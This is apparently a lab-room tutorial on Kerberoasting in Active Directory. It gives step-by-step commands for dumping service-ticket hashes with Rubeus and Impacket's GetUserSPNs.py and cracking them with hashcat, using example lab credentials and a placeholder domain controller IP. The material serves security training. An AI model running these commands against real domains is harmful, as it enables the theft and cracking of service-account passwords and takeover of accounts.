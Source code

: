 # Kerberoasting

## Overview
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

## Tools 
In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

## Kerberoating with Rubeus

1. cd Downloads - navigate to the directory Rubeus is in

2. Rubeus.exe kerberoast - This will dump the Kerberos hash of any kerberoastable users

3. Then, copy the hash onto your attacker machine- and put it into a .txt file so we can crack it with hashcat using:

	''hashcat -m 13100 -a 0 hash.txt wordlist.txt'' 

## Kerberoasting with Impacket 

1. Install Impacket from: https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

	1. cd Impacket-0.9.19
	2. pip install . - this will install all needed dependencies

2. Use the command:

	'''sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request'''

This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3. hashcat -m 13100 -a 0 hash.txt Pass.txt - now you can crack those hashes
